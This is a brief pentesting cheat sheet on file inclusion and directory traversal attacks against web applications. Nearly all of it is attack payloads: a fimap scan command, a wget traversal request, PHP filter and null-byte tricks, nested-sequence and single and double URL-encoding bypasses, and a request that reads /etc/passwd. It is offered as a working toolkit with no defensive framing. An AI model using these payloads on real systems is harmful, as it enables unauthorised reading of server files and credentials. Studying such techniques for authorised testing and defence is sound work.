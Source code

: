 # LFI/RFI

```
# https://github.com/kurobeats/fimap
fimap -u "https://example.com?test="
```

## Wget

Sometimes browsers mess around with basic directory traversal sequences, but wget may work:

```
wget http://[host]/page.php?url=../../../../../../../file.html
```

## Tricks

 - PHP Filter b64 (php://filter/zlib.deflate/convert.base64-encode/resource=FILE)
 - Nullbyte ending (%00)
 - 403bypass section may help

## Bypasses

### Nesting traversal sequences

```
....//
....\/
..../\
....\\
```

### URL Encoding

```
dot             %2e
forward slash   %2f
backslash       %5c
```

### Double URL Encoding

```
dot             %252e
forward slash   %252f
backslash       %255c
```

### Null Byte

Some applications check whether the user-supplied file name ends in a particular file type or set of file types, and reject attempts to access anything else. A null byte terminator (%00 or 0x00 in hex) will stop processing immediately, so that any bytes following it are ignored.

```
http://website/page=../../../etc/passwd%00
```


